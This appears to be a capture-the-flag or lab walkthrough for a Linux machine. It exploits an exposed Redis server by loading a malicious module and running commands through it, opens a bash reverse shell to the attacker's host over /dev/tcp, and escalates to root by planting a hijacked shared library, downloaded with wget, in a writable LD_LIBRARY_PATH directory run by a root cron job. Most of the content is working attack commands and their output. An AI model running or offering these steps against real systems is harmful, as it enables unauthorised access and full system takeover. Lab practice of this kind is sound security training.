 ### redis-rogue-server
https://github.com/A1vinSmith/redis-rogue-server

no working directly
```bash
python3 redis-rogue-server.py --rhost 192.168.200.93 --rport 6379 --lhost 192.168.49.200 --lport 6379
```

but working with the load module
```bash
❯ redis-cli -h $IP
192.168.200.93:6379> MODULE LOAD /var/ftp/pub/exp.so
OK
192.168.200.93:6379> MODULE LIST
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.200.93:6379> system.exec "id"
"uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\n"
192.168.200.93:6379> 
```

### reverse shell
```bash
192.168.200.93:6379> system.exec "which nc"
""
192.168.200.93:6379> system.exec "bash -i >& /dev/tcp/192.168.49.200/6379 0>&1"

❯ nc -lvnp 6379
listening on [any] 6379 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.93] 57842
bash: no job control in this shell
[pablo@sybaris /]$ 
```

### Privilege Escalation (Shared Libraries very similar to Malbec PE)
* Malbec is dynamic library hijacking of an SUID Linux binary with `LD_PRELOAD` or a cronjob of `/sbin/ldconfig` that hooks the `module.so`. 
* Shared Object hijacking is `readelf -d /usr/bin/log-sweeper | grep PATH`. That load from custom locations.
* Check HTB Academy module for details

```bash
[pablo@sybaris opt]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils  <- LD_LIBRARY_PATH
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper

[pablo@sybaris opt]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffd019ee000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f40283b5000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f4028783000)
```

### Find writable path in LD_LIBRARY_PATH
```bash
find / -type d -writable 2>/dev/null
```

`/usr/local/lib/dev` <- This one is in the path

```bash
wget http://192.168.49.200/rootshell.c

gcc rootshell.c -o utils.so -shared -Wall -fPIC -w

mv utils.so /usr/local/lib/dev/utils.so
```